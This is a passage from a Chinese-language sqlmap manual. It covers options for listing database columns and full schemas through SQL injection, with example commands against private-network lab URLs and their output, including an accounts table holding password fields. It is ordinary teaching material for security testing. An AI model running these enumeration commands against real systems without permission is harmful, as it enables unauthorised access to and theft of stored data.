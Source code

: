 	--exclude-sysdbs参数是指包含了所有的系统数据库。
	
	需要注意的是在Oracle中你需要提供的是TABLESPACE_NAME而不是数据库名称。

#### 列举数据库表中的字段

	参数：--columns,-C,-T,-D
	
	当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出指定数据库表中的字段，同时也会列出字段的数据类型。
	
	如果没有使用-D参数指定数据库时，默认会使用当前数据库。

列举一个SQLite的例子：

	$ python sqlmap.py -u "http://192.168.136.131/sqlmap/sqlite/get_int.php?id=1" --columns -D 	testdb -T users -C name
	[...]
	Database: SQLite_masterdb
	Table: users
	[3 columns]
	+---------+---------+
	| Column  | Type    |
	+---------+---------+
	| id      | INTEGER |
	| name    | TEXT    |
	| surname | TEXT    |
	+---------+---------+
#### 列举数据库系统的架构

	参数：--schema,--exclude-sysdbs
	
	用户可以用此参数获取数据库的架构，包含所有的数据库，表和字段，以及各自的类型。
	
	加上--exclude-sysdbs参数，将不会获取数据库自带的系统库内容。

MySQL例子：

	$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --schema --batch --exclude-sysdbs
	[...]
	Database: owasp10
	Table: accounts
	[4 columns]
	+-------------+---------+
	| Column      | Type    |
	+-------------+---------+
	| cid         | int(11) |
	| mysignature | text    |
	| password    | text    |
	| username    | text    |
	+-------------+---------+
	